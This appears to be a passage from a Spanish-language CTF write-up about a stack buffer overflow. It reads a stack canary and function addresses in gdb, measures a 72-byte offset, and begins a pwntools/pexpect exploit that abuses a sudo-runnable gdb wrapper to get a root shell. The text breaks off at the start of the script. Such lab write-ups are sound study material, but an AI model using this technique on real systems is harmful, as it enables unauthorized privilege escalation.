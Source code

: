 ```bash
   0x0000555555556333 <+311>:	je     0x55555555633a <main+318>
   0x0000555555556335 <+313>:	call   0x555555555130 <__stack_chk_fail@plt>
--Type <RET> for more, q to quit, c to continue without paging--
   0x000055555555633a <+318>:	leave
   0x000055555555633b <+319>:	ret
```
podemos ver inmediatamente donde se encuentra el `canary`

```
0x000055555555620d <+17>:	mov    %rax,-0x8(%rbp)
```

con `stepi` nos adelantamos hasta despues del canary

![image](https://github.com/user-attachments/assets/67f091d2-682e-4856-9e40-a72e8a1daad5)

nos movimos 4 direcciones de memoria, ya el canary se encuentra en `rbp - 0x8` por lo que podemos consultarlo

```bash
(gdb) x/1gx $rbp-0x8
```

![image](https://github.com/user-attachments/assets/ab3747e1-f122-4258-b057-c4699a73e990)

ya sabemos como extraer el canary, ahora para extraer la direccion de factor1(), que sera con la primera que intentare, usamos el comando

```bash
(gdb) p factor1
```
```
$1 = {<text variable, no debug info>} 0x5555555560b7 <factor1>
```

ahora validamos el offset de la entrada vulnerable para saber el tamano del buffer antes de llegar al canary

![image](https://github.com/user-attachments/assets/a0baaca2-641d-46ad-bdef-f83eb0420f41)

el offset es de 72 bytes, asi que este datos nos servira para la contruccion del exploit.

ya sabemos como extraer la direccion de una funcion, ya tenemos el offset hasta el canary, tambien sabemos donde se localiza el canary y como extraerlo, esta seria toda la informacion que necesitamos extraer en tiempo de ejecucion ya que por las protecciones activas, las direcciones de memoria se aleatorizan tras cada ejecucion, por esto vamos a desarrollar el exploit para que interactue con `gdb`, bueno hay que tomar en cuenta que si en vez de apuntar a gdb directamente, apunto al script `/usr/local/bin/secure_gdb` podria ejecutar gdb como root, por lo que el binario hereda los permisos y se ejecuta como root, y si el exploit llega a funcionar, estaria obteniendo una shell como root directamente, asi que en el exploit apunto al script para ejecutar como root a gdb.

El exploit lo desarrollo para que interactue con gdb a traves del script "/usr/local/bin/secure_gdb" y de igual forma que fui extrayendo la informacion de forma manual en gdb, lo hago pero automatizando todo el proceso y usando expresiones regulares para extraer los datos que necesito en tiempo de ejecucion, el exploit queda asi:

exploit.py
```python
import pexpect
import re
import struct
from pwn import *
def atack():
    # 4 espacios de identacion
    binary = ELF("/home/pedro/hall")
    binary_path = "/home/pedro/hall"
    gdb_path = "/usr/local/bin/secure_gdb"
    gdb_process = pexpect.spawn(f"sudo {gdb_path} {binary_path}", timeout=10, maxread=10000, searchwindowsize=100)
```
